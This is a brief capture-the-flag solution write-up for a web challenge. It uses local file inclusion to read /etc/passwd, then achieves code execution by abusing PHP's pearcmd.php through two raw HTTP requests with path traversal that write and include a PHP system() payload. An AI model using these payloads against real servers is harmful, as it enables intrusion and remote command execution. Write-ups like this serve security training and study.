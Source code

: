 # Sourceless Guessy Web - Solution

**Author**: zeyu2001

**Category**: Web

## Baby Flag

LFI to view `/etc/passwd`

## Easy Flag

Achieve RCE through the pre-installed `pearcmd.php`

1. Write a PHP payload to `/tmp/pwn.php`:

`GET /?page=../../../../usr/local/lib/php/pearcmd.php&+config-create+/tmp/<?=system('/readflag')?>/*+/tmp/pwn.php HTTP/1.1`

2. LFI to include `/tmp/pwn.php`:

`GET /?page=../../../../tmp/pwn.php HTTP/1.1`
